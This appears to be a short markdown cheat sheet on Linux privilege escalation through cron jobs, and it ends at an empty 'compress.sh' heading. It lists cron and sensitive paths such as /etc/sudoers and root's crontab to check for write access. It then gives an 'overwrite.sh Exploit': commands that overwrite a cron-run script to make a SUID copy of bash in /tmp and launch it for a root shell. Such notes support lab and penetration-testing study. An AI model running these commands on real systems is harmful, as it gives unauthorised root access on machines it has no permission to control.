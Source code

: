 

   ### Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
   ### Cron table files (crontabs) store the configuration for cron jobs. 
   ### The system-wide crontab is located at /etc/crontab.
    
          cat /etc/crontab
          locate overwrite.sh
          
          
          
   ### Cron jobs

      Check if you have access with write permission on these files.   
      Check inside the file, to find other paths with write permissions.   

          ```powershell
            /etc/init.d
            /etc/cron*
           /etc/crontab
          /etc/cron.allow
         /etc/cron.d 
         /etc/cron.deny
          /etc/cron.daily
           /etc/cron.hourly
            /etc/cron.monthly
             /etc/cron.weekly
              /etc/sudoers
               /etc/exports
                /etc/anacrontab
                 /var/spool/cron
                   /var/spool/cron/crontabs/root
          
          
          
          
   ## overwrite.sh Exploit
   
         echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
         chmod +x /home/user/overwrite.sh
         /tmp/bash -p




   ## compress.sh
   
     
